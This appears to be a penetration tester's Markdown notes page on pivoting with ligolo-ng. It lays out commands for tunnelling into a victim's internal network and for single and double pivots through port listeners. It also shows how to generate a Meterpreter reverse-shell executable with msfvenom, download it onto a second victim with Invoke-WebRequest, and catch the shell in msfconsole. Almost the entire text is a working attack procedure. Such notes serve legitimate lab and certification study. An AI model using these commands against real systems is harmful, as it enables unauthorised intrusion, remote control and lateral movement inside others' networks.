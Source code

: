 ```yaml
---
title: Ligolo-ng
parent: Pivot
layout: default
nav_order: 1
---
```


When using nmap with ligolo-ng should specify `--unprivileged` to avoid false positives.

1. Install if haven't.\
`sudo apt install ligolo-ng`

1. Download the proxy agent files here(download old one if new not working):\
`https://github.com/nicocha30/ligolo-ng/releases`

1. Add ligolo TUN interface:\
`sudo ip tuntap add user <Your Username> mode tun ligolo`

1. Enable the interface:\
`sudo ip link set ligolo up`

1. Start our proxy server in attacker machine:\
`ligolo-proxy -selfcert -laddr 0.0.0.0:21`

1. In our victim:\
`./agent -connect <Attack IP>:21 -ignore-cert`

1. Once it is connected, go back to attacker machine should see agent connected. Run the `session` command and select the victim machine.

2. Run the following (in the ligolo interface!). This will show you what network the victim can access to:\
`ifconfig`

1. Based on the results above, use the following command (in linux not ligolo interface!). In this example the victim internal network ipv4 is 192.168.56.128/24:\
`sudo ip route add 192.168.56.0/24 dev ligolo`

1.  In ligolo interface with the selected agent, run `start`

If <b>double pivot</b> is required (you have proxy on the first victim already, but need proxy on a second victim also through first victim)
1. Add a second ligolo TUN interface:\
`sudo ip tuntap add user <Your Username> mode tun ligolo2`

2. Enable the interface:\
`sudo ip link set ligolo2 up`

3. In your ligolo interface with the first victim selected, redirect the port 21 of first victim to our kali port 21:\
`listener_add --addr 0.0.0.0:21 --to 127.0.0.1:21 --tcp`

4. To confirm it has been added:\
`listener_list`

5. Now run the agent on the second victim (assuming it is windows):\
`./agent.exe -connect <IP of First Pivot Point>:21 -ignore-cert`

6. Run the following for second victim (in the ligolo interface!). This will show you what network the second victim can access to:\
`ifconfig`

7. Based on the results above, use the following command (in linux not ligolo interface!). In this example the second victim internal network ipv4 is 10.1.30.132/24:\
`sudo ip route add 10.1.30.0/24 dev ligolo2`

8. In ligolo interface with the selected agent, run\
`tunnel_start --tun ligolo2`

Setting up <b>reverse shell</b> if the second victim cannot reach attacker machine directly
1. Generate a reverse shell (but the IP must be for the <b>first victim!</b>):\
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.128 LPORT=5656 EXITFUNC=thread -f exe -o shell.exe`

2. To ensure you can download files on second victim from Kali, run this under ligolo interface for first victim. This forwards port 2222 of first victim to kali port 8888:\
`listener_add --addr 0.0.0.0:2222 --to 127.0.0.1:8888 --tcp`

3. Then we can set up python download server on 8888:\
`python3 -m http.server 8888`

4. Download the file on second victim (IP here is the first victim):\
`Invoke-WebRequest -Uri "http://192.168.56.128:2222/shell.exe" -OutFile shell.exe`

5. On the ligolo interface for first victim run the following which will forward port 5656 on first victim to port 4444 on kali:\
`listener_add --addr 0.0.0.0:5656 --to 127.0.0.1:4444 --tcp`

6. Wait for incoming connecting after running this:
```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
exploit
```

If you want to access <b>internal services available only to that localhost of first victim</b>, run the following on kali interface:\
`sudo ip route add 240.0.0.1/32 dev ligolo`

You can then use 240.0.0.1 as if you are accessing 127.0.0.1 on the first victim. For example this will be like running nmap 127.0.0.1 on first victim:\
`nmap 240.0.0.1`
